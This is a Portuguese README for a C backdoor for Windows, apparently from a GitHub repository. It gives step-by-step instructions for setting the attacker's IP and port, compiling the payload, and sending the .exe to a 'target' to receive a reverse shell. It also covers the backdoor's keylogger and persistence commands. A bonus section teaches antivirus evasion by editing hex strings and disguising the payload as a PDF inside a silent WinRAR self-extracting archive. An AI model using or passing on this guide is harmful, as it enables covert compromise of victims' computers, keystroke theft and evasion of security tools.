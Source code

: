 # Backdoor C
Backdoor Feita em C com algumas 2 funcionalidades extras 
## Pre-requisitos
Você ira precisar ter o gcc instalado
```
sudo apt install gcc
```
Ira precisar do mingw
```
sudo apt install mingw
```
E também ira precisar de qualquer editor de texto
## Como deixar funcional
Primeiro abra o arquivo ```Backdoor.c``` e modifique as linhas 145 e 146 mudando o endereço IP e porta

Depois faça o mesmo no ```server.c``` porem nas linhas 28 e 29 depois basta compilar
## Como compilar
Primeiro vamos compilar o ```server.c``` usando o ```gcc```
```
gcc server.c -o ArquivoFinal
```
Depois de compilado vamos para o arquivo principal 
porem iremos compilar para Windows 32bits então usaremos o ```mingw```
<details>
  <summary>:zap: Por que 32bits ?</summary>

  Quando compilado em 32bits ele ira poder rodar em qualquer computador windows inclusive  64bits

</details>

```
i686-w64-mingw32-gcc -o NomeDaBackdoor.exe Backdoor.c -lwsock32 -lwininet
```
## Como usar 
Primeiro iremos iniciar o listener em nossa maquina
```
./ArquivoFinal
```
Depois enviamos o aquivo ```.exe``` para o "Alvo"

E logo quando ele executar o arquivo iremos receber uma conexao reversa
## Comandos
As 2 funcionalidades extras sao um keylogger e uma persistencia

executando o comando 
```
keylog_start
```
O seu keylogger ira iniciar ele ira salvar todas as saida do teclado em um arquivo chamado "windows.txt"

Para ler o arquivo com as saidas digite
```
type windows.txt
```
<details>
  <summary>:zap:oque e um keylogger ?</summary>
  
  keylogger nada mais e do que um programa que captura tudo que for digitado
</details>
O segundo comando e da persistencia

iniciamos ele executando 
```
persistence
```
Ele ira nos retornar uma saida nos dizendo a onde foi criada a persistencia


<details>
  <summary>:zap:oque e uma persistencia ?</summary>
  Persistencia e basicamento um script que quando executado ira fazer
  
  o seu malware ser executado sempre que o PC for ligado
</details>

# Bonus
Nesse bonus eu irie te mostras algumas formas de deixar sua backdoor "indetectavel"

## Modificando o codigo HEX
Eu irie te mostrar como modificar o codigo Hex da nossa backdoor 

Para deixar ela ainda mais indetectavel

Primeiro iremos usar um programa chamado ```ghex```

Para instalar o mesmo use 
```
sudo apt-get install ghex
```
Logo depois iremos abrir o editor em nosso arquivo .exe
```
ghex malware.exe
```
E ira ver algo parecido com isso


![Screenshot from 2020-09-16 13-06-16](https://user-images.githubusercontent.com/62577914/93418429-64418180-f878-11ea-86a6-09c611230ae3.png)


Agora nos iremos modificar apenas as strings
Voce deve modificar apenas na onde ta escrito "This program cannot be run in DOS"
Localize essa parte usando as setas do teclado 
voce podera inserir qualquer valor decimal
Voce tambem podera comentar no ```Backdoor.c``` coisa aleatorias que ira ajudar 

## Escondendo em arquivo PDF
voce ira precisar de um ico de um pdf qualquer e do malware(obvio)
e do [winrar](//www.win-rar.com/)

voce podera encotrar a imagem no [Iconfinder](https://www.iconfinder.com/)
entao pesquise por PDF e escolha a desejada
voce ira ver algo parecido com isso 
![Screenshot from 2020-09-17 00-16-36](https://user-images.githubusercontent.com/62577914/93419836-d4053b80-f87b-11ea-859d-6e7a21733121.png)
E entao clique em "Download Icon in PNG"

Mas nos nao queremos uma imagem .png mas sim .ico

entao usaremos o site [Icoconverte](https://icoconvert.com/)
clique em "choose file" e escolha imagem que baixamos anteriormente e entao clique em upload
![Screenshot from 2020-09-17 00-23-42](https://user-images.githubusercontent.com/62577914/93420439-e16ef580-f87c-11ea-8ed0-a2168d79861f.png)

E entao escolha o tamanho de 64x64 entao clique em "convert to ICO" depois basta baixar ela
![Screenshot from 2020-09-16 14-10-43](https://user-images.githubusercontent.com/62577914/93420787-b1742200-f87d-11ea-99a1-99a130719a6d.png)


Agora iremos juntar todos em um so

Primeiro selecione o arquivo PDF e o malware clique com o botao direito e va em "add to archive"
![Screenshot from 2020-09-16 14-04-03](https://user-images.githubusercontent.com/62577914/93420905-ff892580-f87d-11ea-831d-b4f04ab96787.png)
E entao no campo nome coloque 
```
nome do arquivo.pdf.exe
```
Fazendo isso ira automaticamente marcar uma opcao SFX

Depois fazendo isso va em advanced > advanced SFX options > setup

E em "Run after extraction" coloque o nome do arquiv ```pdf``` e em baixo o nome do ```malware```
![Screenshot from 2020-09-17 00-39-07](https://user-images.githubusercontent.com/62577914/93421243-cf8e5200-f87e-11ea-9676-c2c7e2b49988.png)

Depois va para ```modes``` e marque a opção ```[] Unpack to temporary folder``` e ```hide all```
assim como mostrado na imagen ![Screenshot from 2020-09-24 21-07-34](https://user-images.githubusercontent.com/62577914/94215613-375e2180-feab-11ea-9777-f918d8ecf93e.png)


Depois va em ```Text and icon``` e logo a baixo na opção ```Load SFX icon from the file``` 
clique em ```browser``` e selecione o ```.ico```que baixamos anteriormente

Depois va em ```update``` e marque a opção ```Extract and update files```
e tambem ```Overwrite all files``` 
Agora voce pode comfirmar tudo clicando em ```ok```

Apos fazer a confirmação o arquivo ira ser criado

visualmente se parece identico ao um arquivo pdf 
![Screenshot from 2020-09-24 21-24-47](https://user-images.githubusercontent.com/62577914/94216459-65446580-fead-11ea-890a-62a49219738d.png)

# E pronto seu arquivo PDF malicioso foi criado
# Caso queira esconder em uma imgem basta fazer o mesmo processo apenas subistituindo a extensão e nome
